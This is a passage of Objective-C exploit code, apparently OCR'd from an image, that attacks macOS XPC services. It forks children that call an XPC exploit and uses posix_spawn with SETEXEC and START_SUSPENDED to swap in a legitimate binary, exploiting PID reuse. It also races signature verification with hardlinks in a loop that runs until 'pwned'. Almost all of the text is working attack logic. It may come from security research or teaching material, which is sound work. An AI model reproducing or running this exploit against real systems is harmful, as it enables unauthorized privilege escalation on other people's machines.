 ```objectivec
        NSLog(@"Response, %hdd", b);
    }];

    // Change current process to the legit binary suspended
    char target_binary[] = kValid;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

/**
 * Function to perform the PID race condition using children calling the XPC exploit.
 */
void xpc_pid_rc_abuse() {
    #define RACE_COUNT 1
    extern char **environ;
    int pids[RACE_COUNT];

    // Fork child processes to exploit
    for (int i = 0; i < RACE_COUNT; i++) {
        int pid = fork();
        if (pid == 0) {  // If a child process
            child_xpc_pid_rc_abuse();
        }
        printf("forked %d\n", pid);
        pids[i] = pid;
    }

    // Wait for children to finish their tasks
    sleep(3);

    // Terminate child processes
    for (int i = 0; i < RACE_COUNT; i++) {
        if (pids[i]) {
            kill(pids[i], 9);
        }
    }
}

int main(int argc, const char * argv[]) {
    // Create and set execution rights to 'hard_link' file
    system("touch hard_link");
    system("chmod +x hard_link");
    
    // Create thread to exploit sign verification RC
    pthread_t thread;
    pthread_create(&thread, NULL, check_race, NULL);

    while(!pwned) {
        // Try creating 'download' directory, ignore errors
        system("mkdir download 2>/dev/null");

        // Create a hardlink
        // TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC
        system("ln hard_link download/legit_bin");

        xpc_pid_rc_abuse();
        usleep(10000);
```